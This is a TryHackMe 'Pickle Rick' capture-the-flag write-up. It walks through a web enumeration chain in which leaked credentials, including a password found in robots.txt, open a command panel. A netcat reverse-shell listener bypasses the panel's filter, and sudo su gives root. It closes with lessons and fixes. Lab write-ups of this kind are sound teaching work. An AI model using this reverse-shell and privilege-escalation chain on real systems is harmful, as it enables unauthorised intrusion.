



# TryHackMe: Pickle Rick Writeup

| | |
|---|---|
| **Platform** | TryHackMe |
| **Room** | Pickle Rick |
| **Category** | Web |
| **Difficulty** | Easy |
| **Goal** | Find 3 secret ingredients (flags) |
| **Key techniques** | Info disclosure, command injection panel, PHP reverse shell, `sudo` misconfiguration |

## Summary

The web app leaks a username (page source) and a password (`robots.txt`). The login gives a command panel running commands as `www-data`. A reverse shell bypasses the panel's command filter. `www-data` has `sudo (ALL) NOPASSWD: ALL`, so `sudo su` gives root.

## 1. Reconnaissance

```bash
nmap -sV -sC <target-ip>
```

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80 | HTTP | Apache httpd 2.4.41 (Ubuntu) |

No SSH credentials yet, so the web server is the entry point.



## 2. Web Enumeration

- Page source: an HTML comment leaks a **username**.
- Directory brute force:

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirb/common.txt
```

Found: `/robots.txt`, `/login.php`, `/portal.php`, `/assets`, `/index.html`.

- `/robots.txt` holds one odd string: `Wubbalubbadubdub`. It is the **password**.

Login at `/login.php` with the two values succeeds.

## 3. Foothold: Command Panel

`/portal.php` is a **Command Panel** that runs system commands. `ls` lists the web root and `whoami` returns `www-data`.



Reading the interesting files (`cat clue.txt`, `cat Sup3rS3cretPickl3Ingred.txt`) is blocked:

> Command disabled to make it hard for future PICKLEEEE RICCCKKKK.



The block lives in the PHP code (`denied.php`), at the application layer. It is not an OS restriction.

## 4. Reverse Shell

1. Listener on the attacker machine:
   ```bash
   nc -lvnp 4444
   ```
2. Send a PHP reverse shell one-liner (from [GTFOBins](https://gtfobins.github.io/)) through the panel.
3. Stabilize the shell:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```

The filter no longer applies, so the files read normally:

```bash
cat Sup3rS3cretPickl3Ingred.txt   # ingredient 1
cat clue.txt                      # remaining ingredients are in other directories
```

## 5. Finding Ingredient 2

```bash
cd /home && ls -la
```

Users: `ubuntu` (empty) and `rick`. The second ingredient is in `/home/rick`.

## 6. Privilege Escalation

```bash
sudo -l
```

```
User www-data may run the following commands on ip-10-130-170-176:
    (ALL) NOPASSWD: ALL
```

`www-data` can run anything as root without a password.

```bash
sudo su
id   # uid=0(root) gid=0(root) groups=0(root)
```

The third ingredient is in `/root`.

## 7. Flags

| # | Ingredient | Location |
|---|-----------|----------|
| 1 | `Sup3rS3cretPickl3Ingred.txt` | Web root (read via reverse shell) |
| 2 | Home directory file | `/home/rick/` |
| 3 | Root directory file | `/root/` (after `sudo su`) |

## 8. Attack Chain

Recon (`nmap`) → page source + `robots.txt` leak credentials → login → command panel RCE as `www-data` → reverse shell bypasses filter → flag 1 and 2 → `sudo -l` → `sudo su` → flag 3.

## 9. Lessons Learned

- **Check page source and `robots.txt` early.** Credentials leak there often.
- **A command blacklist in PHP is not a security boundary.** It stops the web UI only, not a real shell.
- **`(ALL) NOPASSWD: ALL` for a service account is a direct path to root.**
- **Fixes:** remove all `sudo` rights from `www-data`. If a web app must run commands, use a strict allow-list through a safe wrapper, never a blacklist.
